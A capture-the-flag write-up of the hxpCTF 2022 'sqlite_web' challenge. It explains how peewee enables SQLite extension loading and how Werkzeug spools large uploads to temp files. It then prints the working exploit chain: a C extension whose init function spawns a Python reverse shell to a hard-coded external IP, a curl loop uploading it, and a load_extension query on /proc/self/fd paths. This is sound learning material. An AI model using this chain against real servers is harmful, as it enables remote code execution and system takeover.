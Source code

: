 ```yaml
---
title: sqlite_web - hxpCTF 2022
date: 2023-03-14 23:18:58
author: ma1f0y
author_url: https://twitter.com/mal_f0y
categories:
  - Web
tags:
  - hxpCTF
  
---
```


**tl;dr**

-  Create a sqlite3 extension with rce payload.
-  Abuse werkzeug tempfile to upload the extension to server.
-  load that extension using load_extension('/proc/self/fd/fd_no');


<!--more-->

**Challenge points**: 385
**No. of solves**: 17

Source: [download](https://2022.ctf.link/assets/files/sqlite_web-c910c710158cf245.tar.xz)

## Analysis

We were given the latest version of [sqlite_web](https://github.com/coleifer/sqlite-web) , our goal is to get RCE on the server. Looking through the Dockerfile we can see the sqlite_web is run using the following command :
```bash
sqlite_web encrypted.db -x -r -e ./crypto -H 0.0.0.0 -p 80
```
we have an encrypted.db loaded with all encrypted tables, and we also have a crypto extension from [sqlean](https://github.com/nalgeon/sqlean) loaded for using crypto functions like md5,sha1, etc.   

After setting up the challenge locally and reading sqlite_web source, we tried to find potential rce vectors in sqlite3 as we can execute SQL statements. We came accross this [blog](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/), which has a lot of tricks get rce using SQLite.

One thing we noticed was using `ATTACH DATABASE`  we can write files in to filesystem, thus we thought of overwriting an existing webapp's template file to insert a SSTI payload to get RCE but we couldn't execute multiple queries together so it was not possible to write into files and the database was also loaded using read-only mode.

Next thing we notice was using load_extension() function we can load an arbitrary extension and execute function inside that extension. But in the documentation of the [load_extension()](https://www.sqlite.org/lang_corefunc.html#load_extension) 

> For security reasons, extension loading is disabled by default and must be enabled by a prior call to sqlite3_enable_load_extension().

So we cannot call load_extension() until it is enabled by calling  sqlite3_enable_load_extension function. That's where loading the crypto module of this challenge comes into play. sqlite_web calls [dataset._database.load_extension(ext)](https://github.com/coleifer/sqlite-web/blob/72ae4bd921c996be85a95eb7a202d46f4a438701/sqlite_web/sqlite_web.py#L850-L853) while loading an extension. If we look into [peewee](https://github.com/coleifer/peewee/blob/4e18187428de3a3bdd29b6d399341c896730fc86/peewee.py#L3704) for load_extension function we can see these lines:
```python
def load_extension(self, extension):
        self._extensions.add(extension)
        if not self.is_closed():
            conn = self.connection()
            conn.enable_load_extension(True)
            conn.load_extension(extension)
```

So it enables the SQLite load_extension function for us. So  we can call the load_extension function with an arbitrary extension we provide. We tried to load the crypto.so on the server it worked, but we want to load our own extension file. 

Now the question is how can we upload a our own extension to the server? There is no file upload feature in the sqlite_web. At this point, I remembered the nigix trick from past hxp ctf, Where if the body of the request was too long it will store the body in a temp file, and we abuse that to get rce using include. We also have a similar scenario here so we checked for the same feature in [werkzeug](https://github.com/pallets/werkzeug/tree/2.2.x) which is used by Flask. 

Aaand we got what we wanted in [formparser.py](https://github.com/pallets/werkzeug/blob/2.2.x/src/werkzeug/formparser.py#L64-L70)!!
```python
    max_size = 1024 * 500

    if SpooledTemporaryFile is not None:
        return t.cast(t.IO[bytes], SpooledTemporaryFile(max_size=max_size, mode="rb+"))
    elif total_content_length is None or total_content_length > max_size:
        return t.cast(t.IO[bytes], TemporaryFile("rb+"))
```

werkzeug uses SpooledTemporaryFile from `tempfile` module to temporarily store uploaded file, and if the file sized is more than the specified max_size, it will create a temp file to store the data else it will store it in the memory itself.

Here in werkzeug we can see the max_size is specified as 500kb, so we just have to upload an extension file greater than 500kb to get that file on the server's filesystem.

## Exploit

First, we create a sqlite3 extension with rce payload in it . We modified the crypto extension from sqlean itself to spawn a reverse shell.

```c
int sqlite3_crypto_init(sqlite3* db, char** pzErrMsg, const sqlite3_api_routines* pApi) {
        system("python3 -c \"import os,pty,socket;s=socket.socket();s.connect(('34.93.56.144',80));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn('/bin/sh')\";");
        SQLITE_EXTENSION_INIT2(pApi);
        static const int flags = SQLITE_UTF8 | SQLITE_INNOCUOUS | SQLITE_DETERMINISTIC;
        sqlite3_create_function(db, "md5", 1, flags, (void*)5, sqlite3_hash, 0, 0);
        sqlite3_create_function(db, "sha1", 1, flags, (void*)1, sqlite3_hash, 0, 0);
        sqlite3_create_function(db, "sha256", -1, flags, (void*)2256, sqlite3_hash, 0, 0);
        sqlite3_create_function(db, "sha384", -1, flags, (void*)2384, sqlite3_hash, 0, 0);
        sqlite3_create_function(db, "sha512", -1, flags, (void*)2512, sqlite3_hash, 0, 0);
        sqlite3_create_function(db, "sqlean_version", 0, flags, 0, sqlean_version, 0, 0);
        return SQLITE_OK;
}
```
compile the code to create an extension file and make sure to add some garbage to make it more than 500kb.

Then we upload that file to the server by sending a fileupload request to `/table/import`

```bash
while true;
do 
curl http://94.130.178.227:18116/ctf/import -H "Authorization: Basic BASE64_TOKEN_HERE" -L -F file=@crypto.so;
done
```

Then we have to load that extension, we can't directly access the tempfile created but there will be a file descriptor of that file in ``/proc/self/fd`` directory until that request is finished ,so we can bruteforce the fd number and  load the extension.
And one more thing,at first we thought we can't load file without `.so` extension but later one of our team members figured out that it is not necessary if the file an actual so file. Then we saw that the sqlite was calling the init function of the extension using the file name, then we figured out that we can give the init function as the second parameter to the load_extension function. 

So the sql final query will be like this:

```sql    
SELECT load_extension('/proc/self/fd/$i','sqlite3_crypto_init')
```

After figuring out every part of the solution,we didn't have enough time to write a brute force script, but we had enough players to spam request to each fd manually to get it working before the ctf ends. 

flag
```
hxp{load_extension(r3m0t3_c0d3_3x3cut10n)}
```

## Closing thoughts

We had a lot of fun solving the challenge and learn't a lot from it, Thanks hxp for such a nice challenge and ctf.







